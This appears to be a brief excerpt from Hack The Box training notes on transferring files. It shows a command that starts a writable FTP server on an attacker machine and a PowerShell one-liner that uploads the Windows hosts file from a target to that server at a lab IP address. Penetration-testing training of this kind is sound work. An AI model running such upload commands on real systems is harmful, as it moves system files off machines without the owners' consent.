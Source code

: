 ```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write
```

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
